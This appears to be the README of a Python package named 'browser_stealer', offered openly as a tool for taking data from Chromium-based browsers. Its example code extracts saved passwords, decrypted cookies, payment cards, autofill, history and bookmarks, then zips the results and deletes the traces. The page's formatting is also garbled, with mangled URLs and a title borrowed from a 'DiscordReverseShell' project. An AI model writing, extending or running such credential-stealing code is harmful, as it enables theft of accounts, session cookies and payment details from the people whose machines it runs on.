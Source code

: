 <!-- <h1 align="center">Browser Stealer<h1> -->

<p align="center">
  <img src="https:\\github.com\Josakko\browser_stealer\blob\main\img\banner.png?raw=true" alt="Browser Stealer">
<p>
  
<p align="center">
  <img src="https:\\img.shields.io\github\languages\top\Josakko\browser_stealer" <\a>
  <img src="https:\\img.shields.io\github\last-commit\Josakko\browser_stealer" <\a>
  <img src="https:\\img.shields.io\github\stars\Josakko\browser_stealer" <\a>
  <img src="https:\\img.shields.io\github\forks\Josakko\browser_stealer" <\a>
<\p>

<h4 align="center">
    <span style="color: #fff; font-weight: bold;">DiscordReverseShell<\span>
    <span style="color: #fff; font-weight: normal;">v1.0.0<\span>
<h4>

```
pip install browser_stealer
```

## Code Examples

Simple example for stealing data from %PROFILE% profile of browsers: Chromium, Chrome, Opera, Opera GX, Brave, Edge
```py
import browser_stealer

browser_stealer.run()
```

Or you want to add your own chromium based browser or other profiles for existing ones:

```py
import browser_stealer


def MyBrowser():
    browser_stealer.fetch_passwords(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Login Data", r"AppData\Local\%BROWSER%\%FOLDER%\User Data\Local State")
    browser_stealer.decrypt_fetch_cookies(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Network\Cookies", r"AppData\Local\%BROWSER%\%FOLDER%\User Data\Local State")
    browser_stealer.fetch_cookies(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Network\Cookies")
    browser_stealer.fetch_history(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\History")
    browser_stealer.fetch_downloads(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\History")
    browser_stealer.fetch_bookmarks(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Bookmarks")
    browser_stealer.fetch_payment(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Web Data", r"AppData\Local\%BROWSER%\%FOLDER%\User Data\Local State")
    browser_stealer.fetch_autofill(r"AppData\Local\%BROWSER%\%FOLDER%e\User Data\%PROFILE%\Web Data")
    
    browser_stealer.zip("MyBrowser.zip", ["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])
    browser_stealer.delete_files(["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])

MyBrowser()
```

## Need Help?

If you need help contact me on my [discord server](https:\\discord.gg\xgET5epJE6) or create [issue](https:\\github.com\Josakko\DiscordReverseShell\issues).

## Contributors

Big thanks to all of the amazing people (only me) who have helped by contributing to this project!
